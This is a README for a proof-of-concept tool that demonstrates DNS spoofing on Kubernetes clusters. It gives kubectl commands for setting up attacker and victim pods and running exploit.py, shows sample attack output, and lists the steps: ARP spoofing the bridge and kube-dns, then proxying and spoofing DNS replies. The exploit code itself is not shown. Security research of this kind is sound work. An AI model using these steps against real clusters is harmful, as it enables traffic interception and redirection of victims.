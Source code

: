 # Kube-Dnsspoof

Kube-dnsspoof is a POC for the possibility of DNS spoofing in certain circumstances on kubernetes clusters.
This exploit runs with minimum capabilities, on default installations of kuberentes.

This repository contains all files and related code for running this exploit.  


## Prerequisites
A Kubernetes cluster


## Run the exploit
  
First, create the pods by:
    
```bash
$ kubectl create -f pods/
pod/hacker created     
pod/victim created   
```

After the pod was created, exec into the hacker pod. it will contain the exploit and hosts file inside the /dnsspoof folder.

```zsh
$ kubectl exec -it hacker zsh
➜  hacker /dnsspoof ls
exploit.py  hosts
➜  hacker /dnsspoof 
```

Next, edit the hosts file to contain your spoofed domains.
The script will proxy all DNS requests to the real kube-dns pod, except for the entries in the hosts file.  

Example for successful run of the exploit:
```zsh
➜  hacker /dnsspoof ./exploit.py
[*] starting attack on indirect mode
Bridge:  172.17.0.1 c0:0f:fe:eb:4b:e0
Kube-dns:  172.17.0.4 02:42:bb:76:74:f8

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```

The steps of the exploit:
* Deciding whether it can run
* Discovering relevant mac/ip addresses
* ARP spoofing the bridge (and kube-dns in case of direct attack mode)
* DNS proxy requests, and spoofing relevant entries
* Restoring all network on CTRL+C interrupt



